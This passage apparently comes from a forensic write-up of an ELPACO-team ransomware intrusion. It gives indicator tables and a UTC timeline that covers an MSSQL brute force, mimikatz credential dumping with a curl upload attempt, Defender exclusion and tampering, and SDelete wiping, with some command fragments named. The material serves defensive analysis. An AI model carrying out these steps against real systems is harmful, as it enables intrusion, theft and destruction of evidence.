| Victim host | ABOZ4HRA | Workstation where malicious processes were observed |
| MSSQL executable | sqlservr.exe | Parent of suspicious OS command execution |
| Ransomware dropper | oh_my_gotto.exe | Downloaded executable; PID 4224 when executed |
| Dropper path | C:\Users\Administrator\AppData\Local\Temp\oh_my_gotto.exe | Initial downloaded payload |
| SFX extraction directory | C:\Users\Administrator\AppData\Local\Temp\7ZipSfx.000\ | Temporary malware extraction location |
| Secondary stage | ELPACO-team.exe | Executable that launched svhostss.exe |
| Ransomware executable | svhostss.exe | Masquerading process; PID 1220 |
| Secondary staging directory | C:\Users\Administrator\AppData\Local\BD3FDDDF-6CAF-3EBC-D9CF-C8DF72D8F78A\ | Directory containing multiple malware components |
| GUI process | gui40.exe | Ransomware GUI component; PID 5484 |
| Defender-interference tool | DC.exe | Executable associated with Defender-disabling activity |
| File-search DLL | Everything32.dll | DLL observed in ransomware staging locations |
| File-search DLL | Everything64.dll | Password-protected archive component referenced during extraction |
| Credential tool | mimikatz.exe | Executable downloaded from attacker tool-delivery endpoint |
| Credential dump file | C:\Mimikatz_dump.txt | Source of observed curl HTTP upload command |
| Remote access tool | AnyDesk.exe | RMM software observed in process activity |
| AnyDesk SHA256 prefix | FFF4B96876 | First 10 characters of SHA256 as reported |
| Persistence account | Reng0ku | Local account added to Administrators group |
| Defender exclusion | C:\ | Entire C: drive configured as antivirus exclusion |
| Ransom note | Decryption_INFO.txt | Ransom note identified through USN activity |
| Decryption ID | BbvdsgAoTiYPteTQ8G5FCZEZ2TkSXikVxHzQlzNV2FE*mo4de1 | Victim-specific ID observed in ransom note |
| Cleanup executable | xdel.exe | Renamed Sysinternals SDelete binary |
| Original executable name | sdelete.exe | OriginalFileName in xdel.exe metadata |
| Masqueraded file timestamp | 2021-08-19 01:32:31 UTC | MFT creation timestamp for svhostss.exe |
Attack Timeline
Times are UTC, based on timestamps explicitly documented in the investigation. Steps without recorded timestamps (such as local account creation) are included in the question-by-question write-up rather than assigned an invented time.
| Timestamp (UTC) | Activity | Evidence / Observation |
|---|---|---|
| 2024-12-13 22:52:46 | MSSQL brute force | 21 failed logins associated with client 10.10.10.55 |
| 2024-12-13 22:52:47 | Successful MSSQL login | Successful SQL Server authentication after failures |
| 2024-12-13 23:37:10 | Defender exclusion attempt | SQL Server spawned command to exclude C:\ |
| 2024-12-13 23:42:08 | Remote access tooling | Earliest identified AnyDesk-related process activity |
| 2024-12-13 23:45:29 | Credential tool download | PowerShell command to retrieve mimikatz.exe |
| 2024-12-13 23:46:36 | Credential dump transfer attempt | curl -T command targeting C:\Mimikatz_dump.txt |
| 2024-12-13 23:47:03 | Ransomware download | SQL Server descendant ran Invoke-WebRequest for oh_my_gotto.exe |
| 2024-12-13 23:48:42 | Dropper execution | oh_my_gotto.exe executed with PID 4224 |
| 2024-12-13 23:48:49 | Ransomware process launched | ELPACO-team.exe launched svhostss.exe (PID 1220) |
| 2024-12-13 23:48:53 | Ransomware GUI launched | svhostss.exe launched gui40.exe (PID 5484) |
| 2024-12-13 23:51:38 | Ransom-note activity | First observed USN activity for Decryption_INFO.txt |
| 2024-12-13 ~23:51:45 | Defender service tampering | MpCmdRun.exe -DisableService observed in proximity to DC.exe |
| 2024-12-13 23:53:35 | Forensic artifact destruction attempt | xdel.exe (SDelete) invoked to wipe free space on C:\ |